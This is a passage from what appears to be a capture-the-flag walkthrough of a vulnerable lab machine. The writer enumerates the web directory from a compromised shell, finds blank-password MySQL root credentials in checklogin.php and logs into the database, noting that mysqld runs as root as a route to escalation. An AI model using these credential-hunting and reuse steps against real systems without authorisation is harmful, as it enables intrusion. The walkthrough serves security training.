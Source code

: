 ```bash
john      5404  0.0  0.0   4580  1856 pts/1    R    23:32   0:00 /bin/bash
john      5406  0.0  0.0   2644  1012 pts/1    R+   23:33   0:00 ps aux
bash-3.2$ 
```

Pretty quiet, one thing that is to note is that `mysqld` is running as root. Let's see if there are any MySQL creds laying around we can take advantage of. We can start by looking around the default `/var/www` web directory.

```bash
bash-3.2$ pwd
/var/www
bash-3.2$ ls -la
total 44
drwxr-xr-x  5 root root 4096 2012-02-06 11:44 .
drwxr-xr-x 14 root root 4096 2012-02-04 09:57 ..
-rw-r--r--  1 root root 1477 2012-02-06 11:31 checklogin.php
-rw-r--r--  1 root root  298 2012-02-04 11:11 database.sql
drwxr-xr-x  2 root root 4096 2012-02-06 11:44 images
-rw-r--r--  1 root root 1255 2012-02-06 12:07 index.php
drwxr-xr-x  2 root root 4096 2012-02-04 18:33 john
-rw-r--r--  1 root root  176 2012-02-04 12:39 login_success.php
-rw-r--r--  1 root root   78 2012-02-04 11:33 logout.php
-rw-r--r--  1 root root  606 2012-02-06 15:42 member.php
drwxr-xr-x  2 root root 4096 2012-02-04 18:30 robert
bash-3.2$ 
```

I won't make you look in every file with me, eventually within `checklogin.php` we find the following:

```php
$host="localhost"; // Host name
$username="root"; // Mysql username
$password=""; // Mysql password
$db_name="members"; // Database name
$tbl_name="members"; // Table name
```

Nice, a root login with a blank password. Now let's try to use these creds:

```bash
bash-3.2$ mysql -u 'root' -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 41
Server version: 5.0.51a-3ubuntu5.4 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> 
```

And we have a working MySQL session, note that within the `enter password:` line, I simply entered a blank password.
